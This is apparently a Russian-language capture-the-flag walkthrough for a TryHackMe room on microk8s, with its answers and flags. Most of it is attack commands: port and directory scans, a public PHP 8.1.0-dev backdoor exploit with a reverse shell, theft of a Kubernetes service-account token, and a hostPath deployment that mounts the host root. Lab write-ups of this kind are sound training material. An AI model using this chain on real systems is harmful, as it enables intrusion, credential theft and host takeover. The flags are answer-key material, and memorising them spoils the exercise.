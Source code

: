 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Frank & Herby make an app](https://tryhackme.com/r/room/frankandherby) 

Всего 1 заданиe:
## Задание 1
Обязательно подождите 5 минут после запуска машины, прежде чем приступать к разведке.

Контейнеры действительно классные, но у них есть соображения безопасности, как и у всего остального. Взломайте 
коробку, а затем выясните, как получить root-доступ! 

Для этого потребуется провести некоторые исследования по использованию microk8s.

Наша история на данный момент...
Двое разработчиков осваивают мир Kubernetes . Эти разработчики и не подозревают, что их незнание 'k8s', контейнеров 
и git сделало их ресурсы открытыми для эксплуатации! 

### Ответьте на вопросы ниже
Какой порт веб-страницы Фрэнк смог выдержать? 
```commandline
nmap -sSVC -T5 -p- <IP>
```
```commandline
31337
```
Что Фрэнк оставил открытым на сайте?
```commandline
gobuster dir -u http://10.10.51.121:31337/ -w ~/dirsearch.txt
```
```commandline
.git-credentials
```
Что такое флаг user.txt?
```commandline

# https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
python3 php.py
cat /run/secrets/kubernetes.io/serviceaccount/namespace
cat /run/secrets/kubernetes.io/serviceaccount/token
env | grep KUBERNETES
# https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
ncat -lvnp 8080
python3 php2.py http://<IP>:30679/ <my_own_IP> 8080
chmod +x kubectl
./kubectl auth can-i --list
./kubectl get pods -A
./kubectl get secrets -A
./kubectl get pods -n frankland php-deploy-6d998f68b9-wlslz -o yaml

vim backdoor.yaml

apiVersion: apps/v1
kind: Deployment
metadata:
  name: php-deploy-2
  namespace: frankland
spec:
  replicas: 1
  selector:
    matchLabels:
      app: php-deploy
  template:
    metadata:
      labels:
        app: php-deploy
    spec:
      containers:
      - image: vulhub/php:8.1-backdoor
        name: php-deploy
        ports:
        - containerPort: 80
          protocol: TCP
        volumeMounts:
          - mountPath: /var/www/html
            name: frank
          - mountPath: /rooted
            name: root
      volumes:
        - hostPath:
            path: /home/herby/app
            type: Directory
          name: frank
        - hostPath:
            path: /
            type: Directory
          name: root


./kubectl apply -f backdoor.yaml
./kubectl get pods -n frankland
./kubectl exec -n frankland -it php-deploy-2-d87d74b9c-9r4lh -- ls -l /
./kubectl exec -n frankland -it php-deploy-2-d87d74b9c-9r4lh -- cat /rooted/home/herby/user.txt
```
```commandline
THM{F@nkth3T@nk}
```
Что такое флаг root.txt? 
```commandline
./kubectl exec -n frankland -it php-deploy-2-d87d74b9c-9r4lh -- cat /rooted/root/root.txt
```
```commandline
THM{M1cr0K8s_13_FUN}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)